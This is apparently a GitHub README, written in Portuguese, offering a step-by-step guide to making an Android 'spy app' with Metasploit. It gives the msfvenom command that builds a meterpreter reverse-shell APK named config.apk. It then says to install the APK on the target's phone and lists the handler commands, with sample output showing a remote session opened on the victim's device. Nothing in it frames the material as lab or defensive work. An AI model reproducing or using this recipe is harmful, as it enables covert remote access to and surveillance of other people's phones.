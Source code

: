 # Spy-apk

### Como criar um aplicativo espião para Android?

Usando [Metasploit](https://www.metasploit.com/)!

- O que eu espero de você?

Tenha Metasploit instalado e executado no CLI.
Use Linux, especialmente.

Execute o comando:

```
msfvenom --platform android -p android/meterpreter/reverse_tcp lhost=YOUR_IP  lport=YOUR_PORT R -o config.apk
```

Substitua pelo seu IP e escolha uma PORTA. Nome do aplicativo, será `config.apk`.

Observação: Se preocupe com seu IP, ele não deve ser alterado. Do contrário perderá o acesso.

========================

Se por acaso no [Termux](https://termux.dev/en/) você não conseguir mover o `config.apk` para seu armazenamento interno ou em outro dispositivo, crie um [localhost](https://github.com/Jetrom17/localhost-python/tree/main).

========================

Depois instale o `config.apk` no alvo. Dê permissão se nercessário. 

Executando novamente o comando `msfconsole`...

Execute para ouvir:

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT YOUR_PORT
exploit
```

Quando o alvo clicar no `config.apk` você terá a seguinte sáida parecida:

```bash
msf6 exploit(multi/handler) > exploit                
[-] Handler failed to bind to 192***:5500:-  -
[*] Started reverse TCP handler on 0.0.0.0:5500
[*] Sending stage (70945 bytes) to 192***
[*] Meterpreter session 1 opened (192***:5500 -> 192***:49282) at 2023-12-15 14:43:56 +0000

meterpreter >
```

Execute comandos, como:

`pwd`
`ls`

=)
